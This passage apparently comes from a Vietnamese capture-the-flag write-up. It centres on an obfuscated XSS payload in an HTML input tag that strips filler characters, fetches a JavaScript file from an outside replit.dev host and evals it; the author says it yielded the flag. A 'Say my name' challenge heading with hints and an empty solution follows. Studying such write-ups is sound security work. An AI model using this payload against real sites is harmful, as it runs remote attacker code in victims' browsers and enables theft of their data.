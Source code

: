```html
<input type=hidden oncontentvisibilityautostatechange="eval(`fabceabctabccabchabc(abc'abchabctabctabcpabcsabc:abc/abc/abc9abc2abc8abc8abc2abc0abc6abccabc-abcdabc9abccabc3abc-abc4abc8abc1abc9abc-abc8abc3abcdabc6abc-abc2abc8abccabc8abc5abceabcbabc8abcdabc2abc2abc8abc-abc0abc0abc-abc1abcnabcbabcmabc4abcbabc0abctabc9abcpabckabcbabcsabc.abcsabcpabcoabccabckabc.abcrabceabcpabclabciabctabc.abcdabceabcvabc/abceabcxabcpabclabcoabciabctabc2abc.abcjabcsabc'abc)abc.abctabchabceabcnabc(abcrabc=abc>abcrabc.abctabceabcxabctabc(abc)abc)abc.abctabchabceabcnabc(abcdabc=abc>abceabcvabcaabclabc(abcdabc)abc)abc`.replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc','').replace('abc',''))" style=content-visibility:auto>
```

Ok sau khi gửi payload này cho report thì mình có flag. 

![image](https://hackmd.io/_uploads/S1IoK87jyl.png)

![image](https://hackmd.io/_uploads/BJeRKUXoye.png)

## Say my name 

### Source

https://drive.google.com/file/d/1nYXBK08TOdMrT6koHSYCiiXKav_zBcIP/view?usp=sharing

### Hints

XSS and format string

### Solution
